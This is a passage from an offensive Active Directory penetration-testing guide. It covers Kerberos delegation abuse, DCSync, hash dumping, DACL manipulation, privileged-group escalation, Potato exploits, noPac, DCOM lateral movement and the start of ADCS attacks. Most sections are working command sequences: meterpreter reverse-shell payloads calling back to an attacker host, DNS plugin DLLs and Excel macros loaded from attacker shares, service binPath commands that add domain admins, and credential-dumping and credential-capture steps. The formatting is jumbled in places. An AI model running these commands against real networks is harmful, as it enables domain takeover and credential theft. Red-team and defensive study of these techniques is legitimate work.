export KRB5CCNAME=<service-user>.ccache
# S4U: request a ticket for Administrator to the target SPN
getST.py -spn cifs/<target-fqdn> -impersonate administrator <domain.local>/<service-user>:'<password>'
# The resulting ccache lets you SMB in as Administrator
export KRB5CCNAME=administrator@cifs_<target-fqdn>@<domain.local>.ccache
smbclient.py -k <domain.local>/administrator@<target-fqdn>Rubeus one-shot with alternate service names:
Rubeus.exe s4u /user:<service-user> /rc4:<ntlm-hash> /impersonateuser:administrator /msdsspn:cifs/<target-fqdn> /altservice:cifs,host,http /pttMethodology
- Enumerate accounts with a populated
msDS-AllowedToDelegateTo:Get-DomainUser -TrustedToAuth -Properties samaccountname, msds-allowedtodelegateto - Compromise the source service account, get a TGT (
getTGT.py):getTGT.py domain.local/<service-user>:pass export KRB5CCNAME=<service-user>.ccache - Chain S4U2Self and S4U2Proxy with
getST.py -impersonate administratororRubeus s4u:getST.py -spn cifs/<target-fqdn> -impersonate administrator domain.local/<service-user>:pass Rubeus.exe s4u /user:<service-user> /rc4:<ntlm-hash> /impersonateuser:administrator /msdsspn:cifs/<target-fqdn> /altservice:cifs,host,http /ptt
6.15 Resource-Based Constrained Delegation
Resource-Based Constrained Delegation (RBCD) inverts the classical model. Instead of the source listing where it may delegate to, the target lists who may act on its behalf via msDS-AllowedToActOnBehalfOfOtherIdentity. Write access to a computer object's SD is enough to configure RBCD onto it, and any authenticated user can create a new computer account by default (the MachineAccountQuota is 10).
The attack chain requires a source computer account you fully control (created for the purpose):
# 1. Create a computer account you control
python3 addcomputer.py -computer-name FAKE01$ -computer-pass '<password>' -dc-ip <dc-ip> <domain.local>/<user>:'<password>'
# 2. Configure RBCD on the target so FAKE01$ can act on its behalf
python3 rbcd.py -delegate-from FAKE01$ -delegate-to <target-computer>$ -dc-ip <dc-ip> <domain.local>/<user>:'<password>' -action write
# 3. Verify the write took
python3 rbcd.py -delegate-to <target-computer>$ -dc-ip <dc-ip> <domain.local>/<user>:'<password>' -action read
# 4. S4U as FAKE01$ to impersonate any user to the target
python3 getST.py -spn cifs/<target-fqdn> -impersonate administrator <domain.local>/FAKE01$:'<password>'
# 5. Use the ticket
export KRB5CCNAME=administrator@cifs_<target-fqdn>@<domain.local>.ccache
psexec.py -k -no-pass <domain.local>/administrator@<target-fqdn>Cleanup, remove RBCD when finished so the delegation attribute does not stay in place:
python3 rbcd.py -delegate-to <target-computer>$ -dc-ip <dc-ip> <domain.local>/<user>:'<password>' -action flushMethodology
- Confirm write access on the target computer's SD (or that MachineAccountQuota is non-zero):
Get-DomainObjectAcl -Identity <target-computer>$ -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match 'GenericWrite|GenericAll|WriteDacl|WriteProperty' } Get-DomainObject -SearchBase 'CN=Users,DC=domain,DC=local' -Filter 'ms-DS-MachineAccountQuota=*' -Properties ms-DS-MachineAccountQuota - Create a controlled computer account with
addcomputer.py:python3 addcomputer.py -computer-name FAKE01$ -computer-pass pass -dc-ip <dc-ip> domain.local/user:pass - Write
msDS-AllowedToActOnBehalfOfOtherIdentityon the target withrbcd.py -action write:python3 rbcd.py -delegate-from FAKE01$ -delegate-to <target-computer>$ -dc-ip <dc-ip> domain.local/user:pass -action write - S4U as the created computer with
getST.py -impersonate administrator, then use the ticket:python3 getST.py -spn cifs/<target-fqdn> -impersonate administrator domain.local/FAKE01$:pass psexec.py -k -no-pass domain.local/administrator@<target-fqdn> - Flush the delegation attribute when finished:
python3 rbcd.py -delegate-to <target-computer>$ -dc-ip <dc-ip> domain.local/user:pass -action flush
6.16 UnPAC-the-Hash
When a certificate is used to authenticate via PKINIT, the resulting TGT contains a Privilege Attribute Certificate (PAC). One of its structures, PAC_CREDENTIAL_INFO, carries the user's NTLM hash. Pulling that hash out of the PAC gives you the account's NTLM without ever completing an NTLM handshake on the wire.
This is the standard follow-up to any ADCS primitive (ESC1, ESC3, Shadow Credentials, Golden Certificate). Certipy handles it in the auth step:
certipy auth -pfx <user>.pfx -dc-ip <dc-ip>
# Sample output:
# [*] Using principal: @
# [*] Got TGT
# [*] Got hash for '@': aad3b435...: Standalone Rubeus with /getcredentials:
Rubeus.exe asktgt /user:<user> /certificate:<pfx-base64> /password:'<pfx-password>' /getcredentials /showThe extracted hash feeds directly into PtH, Overpass-the-Hash, or DCSync.
Methodology
- After any ADCS primitive that yields a PFX, run
certipy auth -pfx <user>.pfx:certipy auth -pfx <user>.pfx -dc-ip <dc-ip> - Alternate:
Rubeus asktgt /certificate:<pfx> /getcredentialsto pull the NTLM out of the PAC:Rubeus.exe asktgt /user:<user> /certificate:<pfx-base64> /password:'<pfx-password>' /getcredentials /show
6.17 Cracking ntds.dit and Registry Hives
Once the ntds.dit and SYSTEM hive are exfiltrated, Impacket's secretsdump extracts every hash:
python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > backup_ad_dumpWith explicit hashes for authentication in edge cases:
python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit -hashes lmhash:nthash LOCAL -output hashes-outputMethodology
- Exfiltrate
ntds.ditand the SYSTEM registry hive (VSS, ntdsutil, or file copy on backups):# On the DC: diskshadow.exe /s script.txt reg save HKLM\SYSTEM C:\temp\SYSTEM - Run
secretsdump.py -system SYSTEM -ntds ntds.dit LOCALand crack withhashcat -m 1000:secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL > hashes.txt hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
6.18 LDAP Pass-back Attack
LDAP authentication resembles NTLM but the application validates credentials directly, the app holds an AD service account, queries LDAP, then verifies the user's password. Services commonly using LDAP: GitLab, Jenkins, custom web apps, network printers, VPN portals.
If you can read the app's config (via a foothold or default admin creds like admin:admin), the LDAP creds may be plaintext. If the password is masked, change the LDAP server IP in the app config to point at your box and test the connection, the app will attempt authentication against your rogue LDAP server, letting you capture the credential.
Methodology
- Access the app's admin/config UI (default creds, foothold, or session hijack):
curl -s -u admin:admin http://<app-fqdn>/admin/settings # Or try Nuclei's default-credentials templates against the target nuclei -t http/default-logins/ -u http://<app-fqdn> - Point the LDAP server field at your listener, trigger the connection test, capture the credential:
# Point the app's LDAP server field at your listener nc -lvnp 389 # Trigger the connection test; capture the bind DN + password in cleartext
7. DACL Attacks I
DACLs are the ACL layer on every Active Directory object. Each entry says what a specific principal is allowed or denied to do to that object, and misconfigured entries are the single most common escalation path I see on mature engagements. A legitimate delegation like "helpdesk can reset user passwords" often reaches further than the person who wrote it intended, and that gap is exactly what BloodHound's edges surface at a glance. GenericAll, GenericWrite, WriteDACL, WriteOwner, ForceChangePassword, AddMembers, and AllExtendedRights each map to a specific set of primitives, and each shows up on real domains often enough to be worth memorizing.

7.1 What is a DACL
A DACL is the list of ACEs attached to an object. Each ACE either allows or denies a specific right to a specific principal. AD objects with a DACL include users, groups, computers, OUs, and GPOs, nearly everything. Access decisions merge inherited and explicit ACEs at evaluation time.
7.2 Gaining Full Access with GenericAll
GenericAll on an object is the strongest right, anything the owner could do, you can do. On OUs this includes creating GPO links (a full-domain compromise path); on users it includes password resets and SPN modifications; on computers it includes shadow credentials.
7.3 Getting a TGT with Kerberos
When the plan requires Kerberos authentication downstream, request a TGT first. Impacket's getTGT.py stores tickets as .ccache files consumable by other tools:
export KRB5CCNAME=/root/username.ccache
getTGT.py 'domain.local/username:password'Point subsequent commands at Kerberos with the -k flag and, where possible, LDAPS to preserve confidentiality.
7.3.1 PowerView Cmdlets for DACL Manipulation
PowerView carries three cmdlets that map onto the primitives used most often once BloodHound flags an abusable edge. They are the PowerShell equivalents of the BloodyAD flow below and useful when the foothold is a domain-joined host.
# Grant the current account GenericAll over a target
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <attacker-user> -Rights All
# Take ownership of an object (WriteOwner is the prerequisite ACE)
Set-DomainObjectOwner -Identity <target> -OwnerIdentity <attacker-user>
# Add a user to a group when the ACE granted is WriteMember specifically
Add-DomainGroupMember -Identity '<target-group>' -Members <attacker-user>WriteMember in ADSI terms is the write-property ACE for the group's member attribute. It is narrower than GenericWrite and often granted by mistake through delegation wizards.
7.4 Writing or Updating a DACL
BloodyAD is the Swiss army knife for LDAP-based ACL manipulation. Grant yourself FullControl over a target object:
bloodyAD --host <target-ip> -u <username> -p <password> add genericAll 'CN=Target,DC=,DC=' <username> With Kerberos and LDAPS:
bloodyAD --host <target-ip> -u <username> -k add genericAll 'CN=Target,DC=,DC=' <username> 7.5 Post-Exploitation, Add to a Group
The follow-up move once you have GenericAll on a group is to add yourself as a member:
bloodyAD --host <target-ip> -u <username> -p <password> add groupMember 'CN=Example Group,CN=Users,DC=,DC=' <username> Or with Kerberos:
bloodyAD --host <target-ip> -u <username> -k add groupMember 'CN=Example Group,CN=Users,DC=,DC=' <username> 7.6 Post-Exploitation, Change Another User's Password
With ForceChangePassword or GenericAll:
bloodyAD --host <target-ip> -u <username> -p <password> set password 'CN=TargetUser,CN=Users,DC=,DC=' '' With Kerberos:
bloodyAD --host <target-ip> -u <username> -k set password 'CN=TargetUser,CN=Users,DC=,DC=' '' Once the target's password is under your control, use it for any downstream tooling, WinRM, RDP, PsExec, etc.
Methodology
- Load BloodHound and identify Outbound Object Control edges from your foothold user.
- Prioritize short paths: GenericAll → group membership → next tier of access.
- Request a Kerberos TGT with
getTGT.pywhere LDAPS is required and NTLM is disabled:export KRB5CCNAME=/root/user.ccache getTGT.py 'domain.local/user:pass' - Use BloodyAD to modify DACLs:
bloodyAD --host <dc> -u user -p pass add genericAll 'CN=Target,DC=domain,DC=local' user - Add yourself to a group with GenericAll:
bloodyAD --host <dc> -u user -p pass add groupMember 'CN=Target Group,CN=Users,DC=domain,DC=local' user - Reset another user's password with ForceChangePassword:
bloodyAD --host <dc> -u user -p pass set password 'CN=Target,CN=Users,DC=domain,DC=local' '' - Validate each step before proceeding, a failed ACL write on a monitored object is noisy.
- Log every temporary permission you grant yourself; remove them after use.
8. DACL Attacks II
The second half of DACL work moves past the classic ACE edges and into the privileges and group memberships that quietly grant equivalent access. DCSync, SeBackupPrivilege, SeManageVolumePrivilege, PAC exploitation, Server Operators, DNS Admins, and macro-driven DCOM all belong in this bucket. Each hinges on a specific permission or group membership whose implications are not obvious to whoever provisioned it, and each shows up in real environments far more often than it should.

8.1 Exploiting AD with DCOM and Macro-Enabled Excel
Another artifact worth checking before any escalation attempt: legacy Group Policy Preferences (GPP) XML in SYSVOL. When it was still in fashion, admins would ship local account passwords through GPP, encrypted with a static key Microsoft later published. Any authenticated user could read the XML from SYSVOL and decrypt the cpassword field.

Requires admin on the compromised workstation. Craft an Excel file with a macro that spawns cmd.exe:
Sub AutoOpen()
Shell "cmd.exe /c calc.exe"
End SubOr generate a Metasploit macro payload:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker> LPORT=4444 -f vbaExtract the PowerShell one-liner starting with powershell and embed it into the macro. The DCOM Excel object can be instantiated remotely from PowerShell to execute macros on a target machine:
$com = [Type]::GetTypeFromProgID('Excel.Application', '<target>')
$obj = [System.Activator]::CreateInstance($com)
$obj.DisplayAlerts = $false
$obj.Workbooks.Open('\\attacker\share\payload.xls')Methodology
- Confirm local admin on the source workstation and that
Excel.Applicationis reachable via DCOM on the target:# Confirm local admin on the source whoami /groups | Select-String Admin # Check DCOM reachability to the target Test-NetConnection <target> -Port 135 - Drop a macro-enabled XLS with an AutoOpen payload on a share the target can read:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker> LPORT=4444 -f vba - Trigger the remote workbook open via
Workbooks.Openagainst the DCOM Excel object:$com = [Type]::GetTypeFromProgID('Excel.Application', '<target>') $obj = [System.Activator]::CreateInstance($com) $obj.DisplayAlerts = $false $obj.Workbooks.Open('\\attacker\share\payload.xls')
8.2 Performing DCSync
DCSync abuses the replication protocol between DCs, an attacker with DS-Replication-Get-Changes and DS-Replication-Get-Changes-All can request account secrets exactly as another DC would. No code runs on the target DC, so process-level detection misses it.
8.2.1 Understanding DCSync
The attack requires Domain Admin rights or the two replication rights above. It's stealthy because it uses legitimate replication traffic, filtering it can break replication for real DCs.
8.2.2 With Impacket
Dump every hash in one shot:
secretsdump.py <Domain>/<Username>:<Password>@<DC_IP_or_FQDN> -just-dc-ntlmWith Kerberos for stealth:
secretsdump.py -no-pass -k <Domain>/<Username>@<DC_IP_or_FQDN> -just-dc-ntlm8.2.3 With PowerShell and Impacket
Trigger from PowerShell where Impacket runs on a separate box, useful when the compromised host lacks Python:
$creds = Get-Credential
Invoke-Command -ComputerName <jumphost> -Credential $creds -ScriptBlock { python3 secretsdump.py <domain>/<user>:<pass>@<dc> -just-dc-ntlm }8.2.4 With Mimikatz
Mimikatz's lsadump::dcsync pulls one account at a time. Grab KRBTGT for Golden Ticket persistence:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<TargetUser>"'
mimikatz # lsadump::dcsync /domain: /user:krbtgt 8.2.5 Automated
Many C2 frameworks wrap DCSync as a one-liner:
nxc smb <DC> -u <user> -p <pass> --ntdsMethodology
- Verify the current principal holds
DS-Replication-Get-ChangesandDS-Replication-Get-Changes-All(BloodHound edgeGetChangesandGetChangesAll):Get-ObjectAcl -DistinguishedName "DC=domain,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -match 'DS-Replication-Get-Changes' } - Dump every account with
secretsdump.py -just-dc-ntlm, or pull a single account withlsadump::dcsync /user::secretsdump.py domain.local/user:pass@<dc> -just-dc-ntlm mimikatz # lsadump::dcsync /domain:domain.local /user:<target> - Grab KRBTGT for Golden Ticket persistence when Domain Admin is in scope:
mimikatz # lsadump::dcsync /domain:domain.local /user:krbtgt
8.3 Exploiting SeBackupPrivilege
SeBackupPrivilege allows any file to be read, bypassing DACLs, designed for backup software. On a DC, that includes the SAM, SYSTEM, and ntds.dit hives.
8.3.1 Using the diskshadow Method and PowerShell
Create a diskshadow script:
# script.txt
set context persistent nowriters
set metadata c:\temp\meta.cab
begin backup
add volume c: alias tempdrive
create
expose %tempdrive% w:
end backupRun diskshadow to mount the shadow copy as W:
diskshadow.exe -s C:\temp\script.txtCopy the locked ntds.dit through SeBackupPrivilege-aware cmdlets:
Import-Module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite8.3.2 By Copying the SAM and SYSTEM Registry Hives
The alternative, save the SAM and SYSTEM hives directly with reg.exe:
reg.exe save hklm\sam C:\temp\SAM
reg.exe save hklm\security C:\temp\SECURITY
reg.exe save hklm\system C:\temp\SYSTEMProcess offline with secretsdump:
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCALMethodology
- Verify
SeBackupPrivilegeis present and enabled withwhoami /priv:whoami /priv | findstr SeBackup - Snapshot the volume via diskshadow, or export SAM / SECURITY / SYSTEM with
reg save:diskshadow.exe /s C:\temp\script.txt reg save HKLM\SAM C:\temp\SAM reg save HKLM\SECURITY C:\temp\SECURITY reg save HKLM\SYSTEM C:\temp\SYSTEM - Process
ntds.ditor the SAM hive offline withsecretsdump.py LOCAL:secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
8.4 Exploiting SeManageVolumePrivilege
SeManageVolumePrivilege grants full control over any file, the design allowed disk defragmentation tools to run without admin, but the effective outcome is trivial privilege escalation. Grant your account write access to a SYSTEM-writable directory, drop a malicious DLL, and let a signed binary side-load it.
.\SeManageVolumeExploit.exeAfter execution, arbitrary writes to C:\Windows succeed. Generate a malicious payload:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker> LPORT=4444 -f dll -o payload.dllMethodology
- Confirm
SeManageVolumePrivilegeis present withwhoami /priv:whoami /priv | findstr SeManageVolume - Run
SeManageVolumeExploit.exeto gain arbitrary write onC:\Windows, then drop a DLL a signed binary side-loads:SeManageVolumeExploit.exe msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker> LPORT=4444 -f dll -o payload.dll copy payload.dll C:\Windows\System32\<hijackable>.dll
8.5 Exploiting PAC in Kerberos (MS14-068)
MS14-068 lets a non-privileged user forge a Golden Ticket via a corrupt PAC. It works when PAC validation is enabled and the DC is unpatched. Historical significance is high; still occasionally seen on unmanaged domain controllers.
python goldenPac.py domain.local/user:password@dc.domain.localMethodology
- Check the DC patch level; MS14-068 pre-dates the KB2992611 fix:
# Check patch level (KB2992611 fixes MS14-068) wmic qfe list brief | findstr 2992611 - Run
goldenPac.pyagainst the DC with any authenticated user's credentials:python3 goldenPac.py domain.local/user:pass@dc.domain.local
8.6 Exploiting Server Operators Group
Members of Server Operators can start and stop services on DCs. Find a service running as SYSTEM whose binPath can be modified:
sc.exe qc <service_name>
sc.exe config <service_name> binPath= "cmd.exe /c net user attacker /add && net localgroup administrators attacker /add"
sc.exe start <service_name> Methodology
- Verify Server Operators membership on the current user (or a foothold account):
Get-ADGroupMember "Server Operators" - Locate a SYSTEM-running service on the DC whose
binPathyou can modify withsc.exe config:sc.exe qc <service_name> - Set the
binPathto your payload, start the service, then restore the original config:sc.exe config <service_name> binPath= "cmd.exe /c net user attacker <password> /add && net localgroup administrators attacker /add" sc.exe start <service_name> sc.exe config <service_name> binPath= "<original-binpath>"
8.7 Exploiting DNS Admin Group
DNSAdmins can configure the DNS service, which runs on the DC as SYSTEM. Load a malicious DLL as a DNS plugin and restart the service, code executes as SYSTEM on the DC.
Craft the DLL:
msfvenom -p windows/x64/exec CMD='net user test /add && net group "Domain Admins" test /add /domain' -f dll -o adduser.dll Register with dnscmd and restart:
dnscmd <dc> /config /serverlevelplugindll \\attacker\share\adduser.dll
sc.exe \\<dc> stop dns
sc.exe \\<dc> start dnsMethodology
- Verify DNSAdmins membership:
Get-ADGroupMember "DnsAdmins" - Compile a DLL that runs your payload from
DllMain:msfvenom -p windows/x64/exec CMD='net user test <password> /add && net group "Domain Admins" test /add /domain' -f dll -o adduser.dll - Register with
dnscmd /config /serverlevelplugindll, then restart the DNS service to trigger load as SYSTEM:dnscmd <dc> /config /serverlevelplugindll \\attacker\share\adduser.dll sc.exe \\<dc> stop dns sc.exe \\<dc> start dns
8.8 Exploiting SeImpersonatePrivilege (Potato Family)
SeImpersonatePrivilege is what almost every Windows service account holds by default so it can impersonate clients that connect to it. On its own it is limited, but combined with a coercion primitive it becomes a full SYSTEM escalation. The pattern is the same across the whole Potato family: coerce a privileged NTLM authentication into a local server, use the token that lands on the pipe, and impersonate it.
# Check the privilege
whoami /priv | findstr SeImpersonate| Variant | Coercion primitive | Where it lands |
|---|---|---|
| RottenPotato / JuicyPotato | DCOM local OXID resolver. | Server 2016 / Windows 10 1803 and earlier. Patched by locking down the local resolver. |
| RoguePotato | DCOM callback redirected to a remote OXID resolver. | Works on later builds where the local resolver was closed off. |
| PrintSpoofer | MS-RPRN (Print Spooler) to a named pipe. | Works wherever the Spooler service is running. |
| GodPotato | DCOM via CoUnmarshalInterface. | Runs through current Windows 11 builds. |
PrintSpoofer is the simplest to run when Print Spooler is enabled on the target:
# Spawn a SYSTEM cmd
PrintSpoofer64.exe -i -c cmd
# Or run a specific command
PrintSpoofer64.exe -c "<payload>.exe"GodPotato when Spooler is disabled:
GodPotato-NET4.exe -cmd "cmd /c whoami"
GodPotato-NET4.exe -cmd "cmd /c <payload>.exe"Methodology
- Confirm
SeImpersonatePrivilegewithwhoami /priv | findstr SeImpersonate:whoami /priv | findstr SeImpersonate - Pick the variant that matches the OS: PrintSpoofer where Spooler is up, GodPotato on modern Windows 11, RoguePotato when the local resolver is locked down:
# Check the Spooler service state to decide between PrintSpoofer and the DCOM variants sc.exe query spooler # Grab OS build to map to the working potato systeminfo | findstr /B /C:"OS Name" /C:"OS Version" - Run the variant with
-c "<payload>"to land as SYSTEM:PrintSpoofer64.exe -i -c cmd GodPotato-NET4.exe -cmd "cmd /c whoami"
8.9 Reading LAPS Passwords
The Local Administrator Password Solution (LAPS) rotates the local Administrator password on each domain-joined host and stores the current value in the computer object as ms-Mcs-AdmPwd (legacy) or msLAPS-Password (Windows LAPS). Any principal with read access to that attribute can decrypt it (Windows LAPS uses ACL-based read protection; the older Microsoft LAPS relied purely on the attribute ACL).
Enumerate who can read LAPS on which computer objects:
# Legacy LAPS
Find-AdmPwdExtendedRights -Identity <ou-name>
# PowerView equivalent
Get-DomainObjectAcl -Identity <computer> -ResolveGUIDs |
Where-Object { $_.ObjectAceType -match 'ms-Mcs-AdmPwd|msLAPS-Password' }Read the current value once you have the rights (PowerShell RSAT):
# Legacy LAPS
Get-ADComputer <computer> -Properties ms-Mcs-AdmPwd | Select-Object name, ms-Mcs-AdmPwd
# Windows LAPS
Get-LapsADPassword -Identity <computer> -AsPlainTextImpacket / NetExec / BloodyAD variants from Linux:
crackmapexec ldap <dc-ip> -u <user> -p '<password>' -M laps
netexec ldap <dc-ip> -u <user> -p '<password>' -M laps
bloodyAD --host <dc-ip> -u <user> -p '<password>' -d <domain.local> get object <computer>$ --attr ms-Mcs-AdmPwdMethodology
- Enumerate which principals hold All Extended Rights or explicit read on
ms-Mcs-AdmPwd/msLAPS-Password:Find-AdmPwdExtendedRights -Identity <ou-name> Get-DomainObjectAcl -Identity <computer> -ResolveGUIDs | ? { $_.ObjectAceType -match 'ms-Mcs-AdmPwd|msLAPS-Password' } - Read the current value with
Get-LapsADPassword,Get-ADComputer -Properties ms-Mcs-AdmPwd, ornetexec -M laps:Get-ADComputer <computer> -Properties ms-Mcs-AdmPwd | Select-Object name, ms-Mcs-AdmPwd Get-LapsADPassword -Identity <computer> -AsPlainText netexec ldap <dc-ip> -u user -p pass -M laps
8.10 DCOM Lateral Movement Objects
Beyond the macro-driven Excel path, DCOM exposes several objects whose methods launch arbitrary commands remotely, driven from PowerShell. Each requires local admin on the target and DCOM reachable on port 135/tcp plus the dynamic RPC range.
MMC20.Application, the Document.ActiveView.ExecuteShellCommand method runs an arbitrary command:
$com = [Type]::GetTypeFromProgID('MMC20.Application', '<target>')
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.ActiveView.ExecuteShellCommand('cmd.exe', $null, '/c <payload>', 'Minimized')ShellWindows, indexes into the shell's open windows and reaches Document.Application.ShellExecute:
$com = [Type]::GetTypeFromProgID('ShellWindows', '<target>')
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute('cmd.exe', '/c <payload>', 'C:\', $null, 0)ShellBrowserWindow, same idea, different class name (works on some servers where ShellWindows is not exposed):
$com = [Type]::GetTypeFromProgID('ShellBrowserWindow', '<target>')
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.Application.ShellExecute('cmd.exe', '/c <payload>', 'C:\', $null, 0)These are quieter than psexec because no service is created and no binary is dropped to disk.
Methodology
- Confirm local admin on the target and that DCOM (135/tcp + dynamic RPC) is reachable:
whoami /groups | Select-String Admin Test-NetConnection <target> -Port 135 - Pick the DCOM object the target still exposes:
MMC20.Application,ShellWindows, orShellBrowserWindow:# MMC20.Application, ShellWindows, ShellBrowserWindow - Instantiate via
GetTypeFromProgIDand callExecuteShellCommandorShellExecutefrom PowerShell:$com = [Type]::GetTypeFromProgID('MMC20.Application', '<target>') $obj = [System.Activator]::CreateInstance($com) $obj.Document.ActiveView.ExecuteShellCommand('cmd.exe', $null, '/c <payload>', 'Minimized')
8.11 sAMAccountName Spoofing (noPac / CVE-2021-42278)
noPac chains two CVEs against unpatched DCs. CVE-2021-42278 lets an authenticated user rename a computer account whose sAMAccountName ends in $. CVE-2021-42287 lets a service ticket obtained under one name still be honored after a rename, if the KDC cannot find the account and falls back to a $-appended lookup. Combined, the chain lets any authenticated user impersonate a Domain Controller.
The default abuse path uses noPac.py or the Impacket flow:
# One-shot exploit: creates a computer, renames it to a DC, S4U's for administrator
python3 noPac.py -dc-ip <dc-ip> <domain.local>/<user>:'<password>' -impersonate administrator -use-ldap
# Or drop into a Kerberos ticket for administrator without shell
python3 noPac.py -dc-ip <dc-ip> <domain.local>/<user>:'<password>' -impersonate administrator -use-ldap -shellManual reproduction with Impacket components:
# 1. Create a computer account
addcomputer.py -computer-name FAKE01$ -computer-pass '<password>' -dc-ip <dc-ip> <domain.local>/<user>:'<password>'
# 2. Rename it to match the DC's short name (drop the trailing $)
renamemachine.py -current-name FAKE01$ -new-name DC01 -dc-ip <dc-ip> <domain.local>/<user>:'<password>'
# 3. Request a TGT for the renamed account
getTGT.py -dc-ip <dc-ip> <domain.local>/DC01:'<password>'
# 4. Rename back so the DC's SPN resolution falls through to the real DC
renamemachine.py -current-name DC01 -new-name FAKE01 -dc-ip <dc-ip> <domain.local>/<user>:'<password>'
# 5. S4U for administrator using the TGT
getST.py -self -impersonate administrator -spn "cifs/<dc-fqdn>" -dc-ip <dc-ip> <domain.local>/DC01Methodology
- Verify the DC is unpatched against CVE-2021-42278 / CVE-2021-42287:
wmic qfe list brief | findstr /I "5008380 5008102" - Run
noPac.py -impersonate administrator -use-ldapas any authenticated user:python3 noPac.py -dc-ip <dc-ip> domain.local/user:pass -impersonate administrator -use-ldap python3 noPac.py -dc-ip <dc-ip> domain.local/user:pass -impersonate administrator -use-ldap -shell
8.12 SPN Jacking
SPN Jacking abuses WriteSPN or full write access on a service account to temporarily hijack the SPN of a machine or another service. Once the SPN is on the attacker-controlled account, any Kerberos service ticket issued for that SPN is encrypted with the attacker's key rather than the legitimate account's. This lets the attacker capture and decrypt tickets meant for another service, or plant a targeted Kerberoast attack.
# Move an SPN onto a controlled account
Set-DomainObject -Identity <attacker-account> -Set @{serviceprincipalname='cifs/<victim-fqdn>'}
# Request a service ticket: the KDC issues it for the attacker's account
Rubeus.exe asktgs /service:cifs/<victim-fqdn> /ticket:<user-tgt> /ptt
# Clean the SPN off the controlled account
Set-DomainObject -Identity <attacker-account> -Clear serviceprincipalnameMethodology
- Confirm
WriteSPNor full write access on a controlled service account:Get-DomainObjectAcl -Identity <target-service-account> -ResolveGUIDs | ? { $_.ObjectAceType -match 'Service-Principal-Name' -or $_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite' } - Move the victim SPN onto the controlled account with
Set-DomainObject, request the ticket, then clear the SPN back:Set-DomainObject -Identity <attacker-account> -Set @{serviceprincipalname='cifs/<victim-fqdn>'} Rubeus.exe asktgs /service:cifs/<victim-fqdn> /ticket:<user-tgt> /ptt Set-DomainObject -Identity <attacker-account> -Clear serviceprincipalname
8.13 Logon Script Attacks
The scriptPath attribute on a user object names a script that runs at every interactive logon, resolved against the domain's NETLOGON share. Write access to scriptPath (via GenericWrite) turns any user into a callback-on-logon primitive. A related path abuses GPO logon scripts staged under SYSVOL\<domain>\scripts, which apply through the linked GPO.
# User-attribute variant: needs GenericWrite on the target user
Set-DomainObject -Identity <target-user> -Set @{scriptPath='\\<attacker-share>\payload.bat'}
# GPO-driven variant: needs write on the GPO's SYSVOL directory
# Copy the payload into the GPO's Scripts\Logon folder
copy payload.bat "\\<dc-fqdn>\SYSVOL\<domain>\Policies\{<gpo-guid>}\User\Scripts\Logon\"Methodology
- User variant: hold
GenericWriteon the target user and setscriptPathto a UNC on your share:Set-DomainObject -Identity <target-user> -Set @{scriptPath='\\<attacker-share>\payload.bat'} - GPO variant: hold write on the GPO's SYSVOL directory and drop a payload under
Scripts\Logon:copy payload.bat "\\<dc-fqdn>\SYSVOL\<domain>\Policies\{<gpo-guid>}\User\Scripts\Logon\"
9. ADCS Attacks
Active Directory Certificate Services (ADCS) is the CA that domains use to issue X.509 certificates for authentication, encryption, and signing. Its templates control who can enroll, for what purpose, and with which subject. When those templates drift, ADCS turns into one of the fastest paths to Domain Admin on Windows, cataloged as ESC1 through ESC15+ by the SpecterOps Certified Pre-Owned research. In practice, most environments running ADCS have at least one exploitable template, and Certipy will find it in under a minute.

9.1 Basics
9.1.1 Certificate Authority (CA)
The CA verifies requesters and issues certificates. Certificate signing key material lives on the CA, compromise it and you can forge certificates for any principal in the forest.
9.1.2 Certificate Templates
Templates define the fields a certificate will contain and the enrollment permissions. Administrators duplicate and modify built-in templates rather than authoring from scratch. Common attributes:
| Attribute | Meaning |
|---|---|
| Enrollment Rights | who can request a cert from this template |
| Subject Name | supplied by request or built from AD (crucial for ESC1) |
| Extended Key Usage (EKU) | what the cert can be used for |
9.2 Key Certificate Fields Explained
The EKU field constrains the cert's use. The relevant EKUs for domain compromise:
| EKU | Purpose |
|---|---|
| Client Authentication (1.3.6.1.5.5.7.3.2) | cert can log on to a domain via PKINIT |
| PKINIT Client Authentication (1.3.6.1.5.2.3.4) | Kerberos PKINIT-specific |
| Smart Card Logon (1.3.6.1.4.1.311.20.2.2) | smart card auth |
| Any Purpose (2.5.29.37.0) | cert can be used for anything, including domain auth |
9.3 Exploitation
Enumeration is the same across every ESC. Certipy flags vulnerable templates, CA misconfigurations, and PKI-object DACLs in a single sweep:
certipy find -u user@domain.local -p pass -dc-ip <dc> -vulnerable -stdoutMethodology
- Enumerate every template and its permissions with
certipy find:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout - Filter for templates flagged ESC1 through ESC15 in Certipy's analysis output:
certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout | grep -E 'ESC[0-9]+' - Note any CA-level flags (
EDITF_ATTRIBUTESUBJECTALTNAME2) and writable PKI-object DACLs Certipy surfaces alongside the template list:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout -old-bloodhound
9.2.1 certutil.exe from the Target
certutil.exe ships with Windows and lets an operator interact with ADCS from a beacon without dropping tooling. Most useful invocations for enumeration:
certutil -dump # Local certificate store
certutil -config - -ping # Discover reachable CAs on the network
certutil -CAInfo # Details on the current CA
certutil -template # All published templates and their key flags
